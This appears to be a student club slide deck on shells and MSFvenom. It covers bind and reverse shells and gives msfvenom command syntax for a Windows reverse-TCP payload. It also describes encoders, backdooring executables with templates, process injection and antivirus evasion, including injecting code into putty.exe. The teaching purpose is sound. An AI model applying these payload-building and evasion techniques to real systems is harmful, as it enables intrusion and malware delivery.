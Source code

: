 ```yaml
---
marp: true
theme: "gaia"

date: '2025-02-07T14:25:46Z'
draft: false
title: 'MSFvenom'
summary: 'Quick presentation over shells, MSFVenom, and evasion..'
ShowToc: true
TocOpen: true
TocSide: "right"
class: "invert"
---
```

{{< slides >}}
<!---  --->

# Shells and MSFvenom

![bg right:40%](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRrxbJa-nhHziIG0l0KWJaB8hE06D7QFpF4wg&s)
UofL Cyber Defense

---
<!-- paginate: true -->
# Disclaimer
- Something about ethics
- Your AV will probably detect this
- Don't try at home <br />(okay at home but not at other people while at home, something about ethics)
- Regurgtating information I did a module on HTB

---
# Table of Contents
1. Payloads
2. MSFVenom
3. Basic Usage
4. Advanced Stuff
    - Obfuscation
    - Templates
    - .Exe Embedding
    - Process Injection

---
# What's a Payload?
![bg contain right:40%](https://preview.redd.it/the-payload-is-much-easier-to-climb-from-the-front-than-the-v0-tpyocdswnlke1.jpeg?auto=webp&s=d94f020d36f4cd2777ca5207e18f913e44a97112)
- A bomb you provide
    - Triggers RCE
    - Injects
    - Creates *shells*
- Resources
    - Payload all the Things
    - msfvenom
---
# Shells
![bg contain  right:40%](https://upload.wikimedia.org/wikipedia/en/thumb/6/60/Mario_Kart_Blue_Shell.png/220px-Mario_Kart_Blue_Shell.png)
- **S**ecure **SH**ell
- ba**sh**, power**shell**, z**sh**
- Metepreter - Metasploit's in-memory DDL Injection
- Web Shells

---
# Types of connections
- Bind - Target listens for connection, Host initiates (binds)
    - Needs open port
- Reverse - Host listens, Target Initiates (reverse)
    - Circumvents firewalls rules
    - Need a listener
        - ncat / netcat
        - MSF multi/handler
    


<!-- footer: https://www.revshells.com/ --> 
---
# Bind Shell
- Target: Sets a listener
- Attacker: makes NC
- Typically blocked on firewall
    - Look for any open/allowed ports
![image w:800px](https://alvintran.net/images/bash_bind_explain.png)

<!-- footer: ""--> 
---
# Reverse Shells
- Firewalls are less likely to block outward connections
- Example is in bash
- Useful if you're in a language / have RCE

![image w:600px](https://alvintran.net/images/bash_rev_explain.png)
{{< asciinema vpYU4n7HklTHNPCTQDbLp64wl >}}

---
# Why MSFVenom?
![bg contain right:20%](https://marriland.com/wp-content/plugins/marriland-core/images/pokemon/sprites/home/full/ekans.png)
- Different payloads (shells, meterpreter)
- Different platforms / arch
- Encodings
- File formants include ASPX, WAR, PHP, EXE, ELF, c code


<!-- footer:--> 
---
# Basic Usage
- `msfvenom -p [payload] -a [arch] --platform [plat] -f [filetype] LHOST=[host] LPORT=[port] -o [out]`
- You can check options with `msfvenom -l [option]`
- ex: `msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform windows -f raw`
    - will give you RAW code
    - used for combining with other methods

<!---
"E:\Visual Studio 2022\VC\Tools\MSVC\14.41.34120\bin\Hostx64\x64\ml64" template_x64_windows.asm /link /subsystem:windows /defaultlib:\"C:\\Program Files (x86)\\Windows Kits\\10\\Lib\\10.0.20348.0\\um\\x64\\kernel32.lib" /entry:main" 
-->
---
# Antiviruses :]
- Wow isn't it so nice windows defender stops your viruses on your computer
- (use linux)
- (or just turn it off)
---
# Staged vs Stageless Payloads
- Stageless: THe entire code in one file
    - Nice and contained, but obviously a virus.
- Staged: smaller initial, sends rest over network
    - Needs msf multi/handler
    - More network-traffic dependent

<!-- footer: https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-stageless-mode.html -->
---

# Evasion
![image](https://www.serebii.net/games/evasion.jpg)

<!-- footer: "https://www.virustotal.com/gui/home/upload"-->
---
# Encoding
- msfvenom's `-e [enc] -u [iter]` command, `--list encoders`
- `x86/shikata_ga_nai` "It cannot be helped"
    - metasploit's signature encoder
- chaining!
- nopsleds
- Though rather later to party:
https://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/
<!-- footer: ""-->

---
# Templates
- injections into files, what people generally think of malware
- `-x` option selects template (xemplate)
- `-k` preserves original function (keep)

<!-- footer: "https://www.offsec.com/metasploit-unleashed/backdooring-exe-files/ \n
https://www.blackhillsinfosec.com/modifying-metasploit-x64-template-for-av-evasion/" -->
---

# Process Injections
- Working more in c (custom .exe)
- Essentially exporting C output into actual C code


<!-- footer: "https://www.ired.team/offensive-security/code-injection-process-injection/process-injection" --->
---
# Doing it by hand
- https://gourish-singla.medium.com/pe-code-injection-in-windows-msfvenom-d9f9ff3fb128
- Literally going into assembly and editing hex
- Way more invovled.
- You can imagine why Malware Analysis/Reverses wants C/Assembly Knowledge
- Also avoids more AV's
- Try injecting the `injct.exe` code into `putty.exe` for example
<!-- footer: "" --->
---
# Alternative Tools + Extras
- encrypting shellcode with `--encrpyt`
    - helpful for more obfuscation
- command payloads


- Alternative options:
    - https://www.shellterproject.com/homepage/
    - https://github.com/trustedsec/unicorn